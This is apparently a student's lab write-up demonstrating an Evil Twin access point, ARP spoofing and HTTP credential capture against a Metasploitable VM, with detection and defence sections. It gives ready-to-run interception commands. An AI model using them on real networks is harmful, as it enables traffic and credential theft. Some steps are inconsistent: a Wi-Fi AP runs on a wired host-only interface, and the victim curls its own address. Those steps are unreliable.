






# 🛡️ Wireless Man-in-the-Middle (MITM) Lab: Evil Twin & ARP Spoofing

> **⚠️ Legal Disclaimer:** This lab is for **educational purposes only**. All attacks are performed in an isolated virtual lab environment. Never perform these techniques on networks or systems you do not own or have explicit written permission to test. Unauthorized interception of network traffic is illegal under the Computer Misuse Act, CFAA, and equivalent laws worldwide.

---

## 📋 Table of Contents

- [Overview](#overview)
- [Learning Objectives](#learning-objectives)
- [Lab Architecture](#lab-architecture)
- [Prerequisites](#prerequisites)
- [Environment Setup](#environment-setup)
- [Part 1: Evil Twin Attack](#part-1-evil-twin-attack)
- [Part 2: ARP Spoofing & Traffic Interception](#part-2-arp-spoofing--traffic-interception)
- [Part 3: Capturing & Analyzing Credentials](#part-3-capturing--analyzing-credentials)
- [Detection & Defense](#detection--defense)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)
- [References](#references)

---

## Overview

This lab demonstrates two classic wireless Man-in-the-Middle (MITM) attack techniques used by penetration testers to assess wireless network security:

| Technique | Description |
|---|---|
| **Evil Twin** | Rogue access point that mimics a legitimate Wi-Fi network to lure victims |
| **ARP Spoofing** | Poisoning ARP caches to intercept traffic between a victim and the gateway |

Both attacks are chained together to simulate a realistic wireless MITM scenario — entirely without physical cables — using only VirtualBox VMs.

---

## Learning Objectives

By completing this lab you will be able to:

- ✅ Understand how Evil Twin attacks work and why they are effective
- ✅ Set up a rogue access point using `hostapd` and `dnsmasq`
- ✅ Execute ARP cache poisoning using `arpspoof` and `ettercap`
- ✅ Intercept and analyze unencrypted network traffic with `Wireshark`
- ✅ Capture HTTP credentials in transit
- ✅ Understand detection techniques and defensive countermeasures

---

## Lab Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                     HOST MACHINE                            │
│                    (My Physical PC)                         │
│                                                             │
│   ┌─────────────────┐        ┌────────────────────────┐     │
│   │   KALI LINUX    │        │    METASPLOITABLE 2    │     │
│   │  (Attacker VM)  │◄──────►│      (Victim VM)       │     │
│   │                 │        │                        │     │
│   │ • hostapd       │        │ • Running web services │     │
│   │ • dnsmasq       │        │ • HTTP traffic         │     │
│   │ • arpspoof      │        │ • Simulated user       │     │
│   │ • ettercap      │        │                        │     │
│   │ • Wireshark     │        │                        │     │
│   └────────┬────────┘        └────────────────────────┘     │
│            │                                                │
│            │  Host-Only Network: 192.168.56.0/24            │
│            │  vboxnet0                                      │
└────────────┼────────────────────────────────────────────────┘
             │
         [Internet]
      (NAT - Adapter 2)
```

**Network Layout:**

| Machine | Role | IP Address |
|---|---|---|
| Kali Linux | Attacker / Rogue AP | 192.168.56.101 |
| Metasploitable 2 | Victim / Target | 192.168.56.102 |
| vboxnet0 gateway | Virtual Router | 192.168.56.1 |

---

## Prerequisites

### Software Requirements

| Tool | Purpose | Pre-installed on Kali? |
|---|---|---|
| VirtualBox | Virtualization | Host machine |
| Kali Linux VM | Attacker machine | — |
| Metasploitable 2 VM | Victim machine | — |
| `hostapd` | Rogue AP creation | ✅ |
| `dnsmasq` | DHCP/DNS for rogue AP | ✅ |
| `arpspoof` (dsniff) | ARP cache poisoning | ✅ |
| `ettercap` | MITM framework | ✅ |
| `Wireshark` | Packet analysis | ✅ |
| `sslstrip` | SSL downgrade (optional) | ✅ |

### Knowledge Requirements

- Basic Linux command line
- Basic understanding of TCP/IP networking
- Familiarity with ARP protocol
- Basic understanding of Wi-Fi (802.11)

---

## Environment Setup

### Step 1: Verify Both VMs Are Running

Start both VMs in VirtualBox and confirm connectivity:

```bash
# On Kali — ping Metasploitable
ping -c 3 192.168.56.102
```

> 📸 **Screenshot 1:** `screenshots/01-ping-connectivity.png`
> *A screenshot showing successful ping replies from Metasploitable*



---

### Step 2: Confirm Metasploitable Services Are Running

```bash
# From Kali — scan Metasploitable for open services
nmap -sV 192.168.56.102
```

> 📸 **Screenshot 2:** `screenshots/02-nmap-scan.png`
> *A screenshot of the full nmap output showing open ports and services*



---

### Step 3: Enable IP Forwarding on Kali

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward

# Make it persistent across reboots
echo "net.ipv4.ip_forward = 1" | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```

> 📸 **Screenshot 3:** `screenshots/03-ip-forwarding.png`
> *A screenshot showing `cat /proc/sys/net/ipv4/ip_forward` outputting `1`*



---

### Step 4: Identify Your Network Interfaces

```bash
ip addr show
```

> 📸 **Screenshot 4:** `screenshots/04-network-interfaces.png`
> *A screenshot of `ip addr show` output highlighting your eth1/host-only interface*



---

## Part 1: Evil Twin Attack

An Evil Twin is a rogue Wi-Fi access point that broadcasts the same SSID as a legitimate network. Victims connect to it thinking it's real, giving the attacker full visibility of their traffic.

### 1.1 How Evil Twin Works

```
Legitimate AP         Rogue AP (Evil Twin)
    📶                      📶
  "CorpWifi"             "CorpWifi"  ← same name, stronger signal
      |                       |
  Victim connects to whichever signal is stronger
                              |
                         ATTACKER
                    (sees all victim traffic)
```

### 1.2 Configure hostapd (Rogue AP)

```bash
sudo nano /etc/hostapd/evil_twin.conf
```

```ini
# Rogue AP Configuration
interface=eth1
driver=nl80211
ssid=CorpWifi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
```

### 1.3 Configure dnsmasq (DHCP + DNS for Victims)

```bash
sudo nano /etc/dnsmasq_evil.conf
```

```ini
interface=eth1
dhcp-range=192.168.56.110,192.168.56.150,12h
address=/#/192.168.56.101
dhcp-option=3,192.168.56.1
dhcp-option=6,192.168.56.101
log-queries
log-dhcp
```

### 1.4 Start the Evil Twin

```bash
# Terminal 1: Start the rogue access point
sudo hostapd /etc/hostapd/evil_twin.conf

# Terminal 2: Start DHCP/DNS service
sudo dnsmasq -C /etc/dnsmasq_evil.conf --no-daemon
```

> 📸 **Screenshot 5:** `screenshots/05-hostapd-running.png`
> *A screenshot of the terminal showing `eth1: AP-ENABLED` from hostapd*



---

> 📸 **Screenshot 6:** `screenshots/06-dnsmasq-running.png`
> *A screenshot of dnsmasq running and showing DHCP/DNS ready*


---

### 1.5 Verify Rogue AP is Broadcasting

```bash
sudo iwlist eth1 scan | grep -i "corpwifi"
```

> 📸 **Screenshot 7:** `screenshots/07-rogue-ap-broadcast.png`
> *A screenshot showing the CorpWifi SSID appearing in the scan results*



---

## Part 2: ARP Spoofing & Traffic Interception

ARP Spoofing exploits the stateless nature of ARP to poison the ARP cache of victims, redirecting their traffic through the attacker's machine.

### 2.1 How ARP Spoofing Works

```
Normal ARP Flow:
  Victim asks: "Who has 192.168.56.1 (gateway)?"
  Gateway replies: "I do — my MAC is AA:BB:CC:DD:EE:FF"
  Victim stores: 192.168.56.1 → AA:BB:CC:DD:EE:FF ✅

ARP Spoofing:
  Attacker continuously sends: "192.168.56.1 is at MY MAC"
  Victim stores: 192.168.56.1 → ATTACKER MAC ❌ (poisoned!)
  All victim traffic now flows through attacker first
```

### 2.2 Identify Target IPs

```bash
sudo nmap -sn 192.168.56.0/24
```

> 📸 **Screenshot 8:** `screenshots/08-host-discovery.png`
> *A screenshot of nmap host discovery showing both Kali and Metasploitable IPs*


---

### 2.3 Check ARP Cache BEFORE Poisoning

```bash
# SSH into Metasploitable first
ssh msfadmin@192.168.56.102

# Check ARP table — note the gateway's real MAC
arp -n
```

> 📸 **Screenshot 9:** `screenshots/09-arp-before-poison.png`
> *A screenshot of the clean ARP table showing the real gateway MAC address*


---

### 2.4 Execute ARP Poisoning with arpspoof

Open two terminals and run both simultaneously:

```bash
# Terminal A: Tell VICTIM that WE are the gateway
sudo arpspoof -i eth1 -t 192.168.56.102 192.168.56.1

# Terminal B: Tell GATEWAY that WE are the victim
sudo arpspoof -i eth1 -t 192.168.56.1 192.168.56.102
```

> 📸 **Screenshot 10:** `screenshots/10-arpspoof-running.png`
> *A screenshot of BOTH arpspoof terminals running side by side*


---

### 2.5 Verify ARP Cache is Poisoned

```bash
# Back on Metasploitable
arp -n
# Gateway IP should now show Kali's MAC — not the real gateway MAC
```

> 📸 **Screenshot 11:** `screenshots/11-arp-after-poison.png`
> *A screenshot of the poisoned ARP table — the gateway IP now maps to Kali's MAC*


---

### 2.6 Alternative: Use Ettercap for Full MITM

```bash
sudo ettercap -T -i eth1 -M arp:remote /192.168.56.102// /192.168.56.1//
```

> 📸 **Screenshot 12:** `screenshots/12-ettercap-mitm.png`
> *A screenshot of Ettercap running and confirming MITM is active*


---

## Part 3: Capturing & Analyzing Credentials

### 3.1 Start Wireshark

```bash
sudo wireshark &
```

Select interface **eth1**, start capture, apply filter: `http`

> 📸 **Screenshot 13:** `screenshots/13-wireshark-capturing.png`
> *A screenshot of Wireshark capturing on eth1 with the http filter applied*


---

### 3.2 Generate Victim Traffic

```bash
# On Metasploitable
curl http://192.168.56.102/dvwa/login.php \
  -d "username=admin&password=password&Login=Login"
```

### 3.3 Capture HTTP Credentials in Wireshark

Apply filter:
```
http.request.method == "POST"
```

Right-click POST packet → **Follow → HTTP Stream**

> 📸 **Screenshot 14:** `screenshots/14-credentials-captured.png`
> *A screenshot of the HTTP stream showing plaintext username and password*


---

### 3.4 Log Visited URLs with urlsnarf

```bash
sudo urlsnarf -i eth1
```

> 📸 **Screenshot 15:** `screenshots/15-urlsnarf-output.png`
> *A screenshot of urlsnarf logging the victim's HTTP requests in real time*


---

### 3.5 Capture Images with Driftnet

```bash
sudo driftnet -i eth1
```

> 📸 **Screenshot 16:** `screenshots/16-driftnet-images.png`
> *A screenshot of the driftnet window showing images captured from victim traffic*


---

## Detection & Defense

### Detecting ARP Spoofing

```bash
# Check for duplicate MACs in ARP table
arp -n | awk '{print $3}' | sort | uniq -d

# Monitor ARP changes with arpwatch
sudo arpwatch -i eth1
```

> 📸 **Screenshot 17:** `screenshots/17-arp-detection.png`
> *A screenshot showing the duplicate MAC detected in the ARP table*


---

### Detecting Evil Twin with Kismet

```bash
sudo kismet -c eth1
```

> 📸 **Screenshot 18:** `screenshots/18-kismet-detection.png`
> *A screenshot of Kismet flagging the rogue AP / duplicate SSID*


---

### Defensive Countermeasures

| Attack | Defense |
|---|---|
| Evil Twin | Use WPA2-Enterprise with certificate validation |
| ARP Spoofing | Enable Dynamic ARP Inspection (DAI) on managed switches |
| Credential theft | Use HTTPS / TLS everywhere |
| DNS hijacking | Use DNSSEC, DNS over HTTPS (DoH) |
| Traffic interception | End-to-end encryption (VPN, TLS 1.3) |

---

## Cleanup

```bash
# Stop arpspoof (Ctrl+C in both terminals)

# Stop hostapd and dnsmasq
sudo killall hostapd
sudo killall dnsmasq

# Disable IP forwarding
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

# Remove config files
sudo rm /etc/hostapd/evil_twin.conf
sudo rm /etc/dnsmasq_evil.conf
```

> 📸 **Screenshot 19:** `screenshots/19-cleanup-complete.png`
> *A screenshot confirming IP forwarding is disabled and services are stopped*


---

## Key Takeaways

1. **Evil Twin attacks are trivial to execute** on open or WPA-PSK networks — anyone with a laptop can do this in a coffee shop
2. **ARP has no authentication** — it was designed for trusted networks; poisoning it requires no credentials
3. **HTTP traffic is completely transparent** to a MITM attacker — never send credentials over HTTP
4. **HTTPS does NOT protect you** if the attacker uses SSLstrip on an unpatched client
5. **VPNs are your best defence** on untrusted networks — they encrypt traffic before it even reaches the network layer
6. **Detection is possible** — WIDS, arpwatch, and certificate pinning are practical defences in enterprise environments

---

## Lab Results Summary

| Step | Action | Screenshot |
|---|---|---|
| 1 | VM connectivity confirmed | 01-ping-connectivity.png |
| 2 | Metasploitable services scanned | 02-nmap-scan.png |
| 3 | IP forwarding enabled | 03-ip-forwarding.png |
| 4 | Evil Twin AP started | 05-hostapd-running.png |
| 5 | DHCP service running | 06-dnsmasq-running.png |
| 6 | Rogue AP broadcasting | 07-rogue-ap-broadcast.png |
| 7 | ARP cache poisoned | 11-arp-after-poison.png |
| 8 | HTTP credentials intercepted | 14-credentials-captured.png |
| 9 | URLs logged | 15-urlsnarf-output.png |
| 10 | Attack detected | 17-arp-detection.png |
| 11 | Cleanup completed | 19-cleanup-complete.png |

---

## References

- [hostapd documentation](https://w1.fi/hostapd/)
- [Ettercap Project](https://www.ettercap-project.org/)
- [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
- [OWASP: Man-in-the-Middle Attack](https://owasp.org/www-community/attacks/Manipulator-in-the-middle_attack)
- [RFC 826 — ARP Protocol](https://datatracker.ietf.org/doc/html/rfc826)
- [IEEE 802.11w — Management Frame Protection](https://en.wikipedia.org/wiki/IEEE_802.11w-2009)
- Offensive Security — [Kali Linux Documentation](https://www.kali.org/docs/)

---

## Author

**Shevy** | Cybersecurity Lab Portfolio  
*Tools used: Kali Linux · Metasploitable 2 · VirtualBox · hostapd · ettercap · Wireshark*

> 🔒 *All techniques demonstrated in an isolated lab environment for educational purposes only.*
